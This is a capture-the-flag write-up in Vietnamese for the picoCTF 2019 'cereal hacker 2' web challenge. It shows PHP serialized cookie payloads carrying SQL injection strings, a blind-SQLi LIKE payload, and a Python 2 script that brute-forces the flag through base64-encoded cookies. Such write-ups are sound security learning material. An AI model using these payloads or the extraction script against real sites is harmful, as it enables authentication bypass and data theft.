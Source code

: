 #### cereal hacker 2 ([Link](https://2019shell1.picoctf.com/problem/62195/index.php?file=login))

- Nhìn vào đề thì đoán có vẻ nó bị dính *LFI* rồi, điển hình dạng này là *PHP filter*, tham khảo để biết thêm: [Link](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

- Quá may, vì *fuzzing* bằng *guest và guest* không được. Nhưng giờ ta nắm trong tay *source* của hầu hết các page

- Page của *Login* có 1 đoạn này

  ```php
  require_once('../sql_connect.php');
  require_once('cookie.php');
  ```

- Giờ ta xem *source* của page *cookie.php*

  ```php
  class siteuser
  {
  	public $username;
  	public $password;
  	...
  ```

- Có vẻ phần *serialize* chỉ đổi mỗi *tên class*, tức là giờ đổi *permissions* của bài trước thành *siteuser* là xong

-  Phần *serialize* cũ đây

  - `O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:18:"admin' OR '1' = '1";}`
  - Giờ sửa lại *Object* thành *siteuser*, đổi lại payload phần *password*
  - `O:8:"siteuser":2:{s:8:"username";s:5:"admin";s:8:"password";s:18:"admin' OR '1' = '1";}`

- Vấn đề bây giờ là payload để bypass qua bài. Để ý thì hint nói đây là 1 bài *blind sql* (hint trong game)

- OK, giờ lấy *payload* mà mình hay xài 

  - `' OR password LIKE 'a%' OR '`
  - Không giải thích nhiều về payload này, bài trước cũng có xài rồi. Theo thói quen và tùy bài có filter hay không thì quyết định dùng hàm *LIKE* hay *SUBSTRING* hay là hàm nào đó. Về phần mình thì với *blind sql* và *timing sql* thì mình thường sử dụng với *LIKE* hơn 

- Giờ ghép payload vào *serialize*

  - `O:8:"siteuser":2:{s:8:"username";s:5:"admin";s:8:"password";s:28:"' OR password LIKE 'a%' OR '";}`

- Về phần mình thì mình sẽ viết 1 tool để lấy ra password của bài. Như những bài trước, mình sẽ không giải thích về tool (lưu ý là tool này code bằng python 2 chứ không phải 3)

  ```python
  import requests, re
  import sys
  import base64
  from string import *
  
  char = ascii_lowercase + digits
  
  listpass = ''
  
  flag = 0
  
  no = []
  
  url = 'https://2019shell1.picoctf.com/problem/62195/index.php?file=admin'
  
  while True:
  	for x in char:
  
  		print('trying with: ', listpass+x)
  
  		c = 'O:8:"siteuser":2:{{s:8:"username";s:5:"admin";s:8:"password";s:{}:"{}";}}'
  
  		payload = "' OR password LIKE 'picoCTF{"+listpass+x+"%}' OR 1='"
  
  		cookies = {
  			'user_info' : base64.b64encode(c.format(len(payload), payload))
  		}
  
  		response = requests.get(url, cookies = cookies)
  
  		fin = re.findall('Welcome to the admin page!', response.text)
  
  		if fin != no:
  			listpass += x
  			flag = 0
  			break
  		else:
  			flag += 1
  		if flag == 36:
  			print('\n\nSuccess with password: ', listpass)
  			sys.exit()
  ```

- OK, chạy cũng khá lâu, flag khá dài

  ![1](Selection_001.png)
